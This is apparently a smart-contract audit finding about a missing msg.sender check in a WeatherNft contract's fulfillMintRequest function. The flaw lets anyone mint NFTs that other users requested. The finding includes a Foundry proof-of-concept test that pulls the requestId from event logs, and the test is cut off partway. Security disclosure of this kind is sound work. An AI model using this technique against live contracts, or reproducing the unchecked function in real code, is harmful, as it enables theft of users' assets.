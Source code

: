 ## Description

Under intended behavior, only the original requester who called `requestMintWeatherNFT` should be able to invoke `fulfillMintRequest` once the Chainlink oracle response arrives, minting the NFT to the coresponding  address. However, because `fulfillMintRequest` lacks any `msg.sender` check, **any**one may call it and receive the NFT.

```Solidity
>@function fulfillMintRequest(bytes32 requestId) external{
  ...
 >@ // mints NFT to msg.sender without any check
   _mint(msg.sender, tokenId);
}
```

## Risk

### Likelihood – High

* Observers(users or bots) can watch the on‑chain `WeatherNFTMintRequestSent` logs to extract `requestId`

* No additional permissions or complex interactions are needed; **any** address may call the function immediately.

### Impact – High

* Attackers can **steal newly minted NFTs**, diverting them (and any embedded value) to their own addresses.

* Legitimate users may be **denied service** by front‑runners consuming the only valid mint operation for that

## Proof of Concept

The following PoC proves that anyone can call the `WeatherNft::fulfillMintRequest`. Add it to the testing suite:

```Solidity
    function test_anyone_can_call_fulfillMintRequest() public {

        string memory pincode = "560001";
        string memory isoCode = "IN";
        bool registerKeeper = false;
        uint256 heartbeat = 1 days;
        uint256 initLinkDeposit = 5e18;

        // Make a real request from the `user`
        vm.startPrank(user);
        linkToken.approve(address(weatherNft), initLinkDeposit);
        vm.recordLogs();
        weatherNft.requestMintWeatherNFT{
            value: weatherNft.s_currentMintPrice()
        }(pincode, isoCode, registerKeeper, heartbeat, initLinkDeposit);
        vm.stopPrank();

        Vm.Log[] memory logs = vm.getRecordedLogs();
        bytes32 realReqId;
        for (uint256 i = 0; i < logs.length; i++) {
            if (
                logs[i].topics[0] ==
                keccak256(
                    "WeatherNFTMintRequestSent(address,string,string,bytes32)"
                )
            ) {
```